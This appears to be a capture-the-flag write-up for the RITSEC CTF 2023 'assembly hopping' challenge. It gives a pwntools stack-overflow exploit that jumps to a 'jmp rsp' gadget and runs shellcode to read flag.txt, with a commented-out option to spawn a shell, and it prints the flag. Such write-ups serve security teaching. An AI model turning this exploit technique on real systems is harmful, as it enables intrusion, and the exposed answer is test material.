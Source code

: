 ![image](https://user-images.githubusercontent.com/63996033/229366697-50f8799d-abc1-4df9-acf2-d61c5ea04989.png)


[assembly](https://github.com/jeromepalayoor/RITSEC-CTF-2023/blob/main/BIN-PWN/assembly-hopping/assembly)

Solution:
```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './assembly'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Offset to EIP
padding = 216

# Assemble the byte sequence for 'jmp esp' so we can search for it
jmp_esp = asm('jmp rsp')
jmp_esp = next(elf.search(jmp_esp))

# Print flag
shellcode = asm(shellcraft.cat('flag.txt'))
# shellcode = asm(shellcraft.sh())
# Exit
shellcode += asm(shellcraft.exit())

# Build payload
payload = flat(
    asm('nop') * padding,
    jmp_esp,
    asm('nop') * 16,
    shellcode
)


# Exploit
# io.sendlineafter(b'!', payload)
io.sendline(payload)

# Get flag/shell
io.interactive()
```

Flag: `RS{AS5EMB1Y_M1GH7_BE_H4RD_BUT_1T_C0MES_IN_CLU7CH}`
